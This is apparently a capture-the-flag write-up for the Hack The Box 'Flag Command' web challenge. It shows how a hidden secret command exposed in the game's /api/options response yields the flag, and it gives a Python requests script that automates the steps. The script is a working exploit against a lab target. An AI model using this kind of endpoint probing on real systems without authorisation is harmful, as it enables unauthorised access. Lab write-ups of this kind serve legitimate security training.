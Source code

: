 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![image](https://github.com/user-attachments/assets/53a152be-5c0a-4f96-89bd-f4bc7efbc55c)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![image](https://github.com/user-attachments/assets/62294dbc-1a3f-48b3-a588-9aa4ac008721)

Going through the adventure with the available adventure options, we die and have to start again:
![image](https://github.com/user-attachments/assets/15f0d537-80de-459c-8615-7aa3a96ba5fe)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![image](https://github.com/user-attachments/assets/eeeb825e-57d4-40bf-a881-794b9be9a769)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![image](https://github.com/user-attachments/assets/8aebd1df-a675-4341-8e87-d8167b18f7d9)


Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![image](https://github.com/user-attachments/assets/702600ad-1d6c-4e50-98f9-c48ea767117b)

Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![image](https://github.com/user-attachments/assets/82634a97-1d43-4772-9ac4-5e560e245ee8)


# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![image](https://github.com/user-attachments/assets/fb692b67-56a1-41e6-bc1d-ac9a74ebdad6)
